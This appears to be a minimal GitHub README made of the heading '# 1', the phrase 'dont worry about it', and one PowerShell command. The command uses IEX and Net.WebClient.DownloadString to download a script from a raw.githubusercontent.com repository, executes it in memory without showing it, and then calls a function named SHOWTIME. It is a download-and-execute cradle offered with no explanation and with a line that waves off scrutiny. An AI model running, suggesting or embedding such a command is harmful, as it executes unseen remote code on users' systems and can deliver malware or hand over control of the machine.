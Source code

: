 # 1
dont worry about it

```
IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/aftoncodes/1/main/1.txt'));SHOWTIME
```
